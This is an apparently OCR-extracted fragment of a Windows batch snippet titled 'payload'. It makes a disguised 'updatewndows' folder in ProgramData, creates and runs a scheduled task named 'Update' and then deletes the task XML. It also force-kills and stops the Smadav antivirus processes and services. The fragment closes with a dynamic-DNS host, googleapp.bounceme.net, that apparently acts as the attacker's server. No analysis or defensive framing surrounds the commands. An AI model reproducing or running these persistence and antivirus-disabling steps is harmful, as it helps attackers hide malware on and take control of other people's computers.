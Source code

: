 # payload

mkdir %systemdrive%\ProgramData\updatewndows

schtasks /create /xml %systemdrive%\ProgramData\updatewndows\Update.xml /tn Update
del %systemdrive%\ProgramData\updatewndows\Update.xml
schtasks /run /tn Update

taskkill /F /IM SMΔRTP

sc query | find "SMΔRTP"

sc query type= service state= all | findstr /C:"SERVICE_NAME:" /C:"SMΔRTP" /C:"SmadavProtect32" | findstr /V /C:"SmadAV" /C:"SmadavProtect32" | findstr /V /C:"SERVICE_NAME" | for /F "tokens=2" %i in ('more') do sc stop %i


googleapp.bounceme.net

